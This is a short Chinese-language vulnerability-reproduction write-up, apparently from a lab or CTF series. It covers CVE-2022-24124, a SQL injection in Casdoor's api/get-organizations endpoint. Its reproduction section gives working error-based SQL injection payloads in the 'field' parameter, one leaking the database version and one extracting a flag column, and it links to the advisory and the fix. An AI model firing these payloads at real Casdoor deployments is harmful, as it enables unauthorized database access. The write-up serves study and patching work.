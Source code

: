 ```yaml
---
title: CVE-2022-24124【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

Casdoor是开源的一个身份和访问管理 (IAM) / 单点登录 (SSO) 平台，带有支持 OAuth 2.0 / OIDC 和 SAML 身份验证的 Web UI 。 Casdoor 1.13.1 之前存在安全漏洞，该漏洞允许攻击者通过api/get-organizations进行攻击。

## 2. 漏洞复现

poc:

```http
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(1,version(),1)

http://xxx:8000/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=(select 1 from (select count(*), concat((select concat(',',id,flag) from casdoor.flag limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

[Casdoor 1.13.0 SQL Injection ≈ Packet Storm](https://packetstormsecurity.com/files/166163/Casdoor-1.13.0-SQL-Injection.html)

[SQL injection vulnerability in field filter · Issue #439 · casdoor/casdoor · GitHub](https://github.com/casdoor/casdoor/issues/439)

[fix: fix the SQL injection vulnerability in field filter by seriouszyx · Pull Request #442 · casdoor/casdoor · GitHub](https://github.com/casdoor/casdoor/pull/442)
